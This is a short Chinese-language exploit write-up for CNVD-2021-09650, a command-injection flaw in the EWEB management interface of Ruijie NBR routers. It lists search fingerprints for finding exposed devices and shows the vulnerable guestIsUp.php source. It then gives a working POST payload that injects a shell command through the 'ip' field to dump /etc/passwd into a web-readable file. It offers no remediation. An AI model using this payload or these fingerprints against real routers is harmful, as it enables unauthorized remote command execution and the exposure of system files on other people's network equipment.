

# 锐捷 NBR 路由器 guestIsUp.php 远程命令执行漏洞 CNVD-2021-09650

## 漏洞描述

锐捷NBR路由器 EWEB网管系统部分接口存在命令注入，导致远程命令执行获取权限

## 漏洞影响

<a-checkbox checked>锐捷NBR路由器 EWEB网管系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="锐捷网络-EWEB网管系统"</a-checkbox></br>

<a-checkbox checked>icon_hash="-692947551"</a-checkbox></br>

## 漏洞复现


出现漏洞的文件在 `/guest_auth/guestIsUp.php`


```php
<?php
    //查询用户是否上线了
    $userip = @$_POST['ip'];
    $usermac = @$_POST['mac'];
    
    if (!$userip || !$usermac) {
        exit;
    }
    /* 判断该用户是否已经放行 */
    $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
    $res = exec($cmd, $out, $status);
    /* 如果已经上线成功 */
    if (strstr($out[0], "status:1")) {
        echo 'true';
    }
?>
```


这里看到通过命令拼接的方式构造命令执行，


```shell
POST /guest_auth/guestIsUp.php
mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```


然后访问页面 `/guest_auth/test.txt` 就可以看到命令执行的结果





## 